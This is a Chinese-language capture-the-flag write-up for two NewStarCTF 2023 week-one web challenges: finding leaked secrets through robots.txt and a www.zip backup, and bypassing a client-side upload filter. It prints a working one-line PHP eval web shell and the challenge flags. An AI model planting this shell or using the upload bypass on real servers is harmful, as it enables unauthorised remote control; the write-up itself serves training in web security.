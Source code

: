 # NewStarCTF_2023

## WEEK1|WEB 泄露的秘密

进入给定靶机提示**“粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！”**：

1. 敏感信息很容易想到robots.txt，通过url访问robots.txt也确实有信息，得到第一段flag

   ```tex
   PART ONE: flag{r0bots_1s_s0_us3ful
   ```

2. 对于第二个敏感信息由于题目做得不多，试了网上说的常见的还是不行，干脆直接dirsearch扫服务器的目录发现除了robots.txt可以访问之外还有www.zip可以访问，在url添加www.zip下载压缩包，解压得到一个index.php文件中有第二段flag

   ```php
   $PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
   ```

   ## WEEK1|WEB Begin of Upload

   通过题目可以看到应该是利用文件上传的漏洞，在google浏览器先上传一个php文件发现有过滤，在**设置**中对js进行禁止就可以成功上传php文件，php文件内容如下：（利用一句话木马）

   ```php
   <?php @eval($_POST['attack']);?>
   ```

   成功将文件上传后利用蚁剑连接一句话木马成功进入服务器，在服务器的文件列表发现有f11114g文件打开得到flag

   ```tex
   flag{b082c1e5-526a-4dbd-a5c4-00fa035bfb3c}
   ```

   [CTF-WriteUp/NewStarCTF_2023/image/1.png at main · 2aurora2/CTF-WriteUp (github.com)](https://github.com/2aurora2/CTF-WriteUp/blob/main/NewStarCTF_2023/image/1.png)

